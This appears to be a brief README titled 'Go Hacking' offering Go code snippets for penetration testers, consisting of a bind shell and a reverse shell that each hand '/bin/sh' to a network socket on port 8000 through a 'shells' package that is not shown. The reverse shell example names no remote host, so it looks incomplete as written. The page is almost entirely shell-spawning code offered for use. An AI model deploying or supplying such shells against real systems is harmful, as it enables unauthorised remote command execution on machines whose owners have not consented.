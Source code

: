 Go Hacking
==========

Snippets of golang code for penetration testers. 



Bind Shell
----------

    package main

    import "shells"


    func main(){
        shells.BindShell("tcp", ":8000", "/bin/sh")
    }


Reverse Shell
-------------

    package main

    import "shells"


    func main(){
        shells.ReverseShell("tcp", ":8000", "/bin/sh")
    }

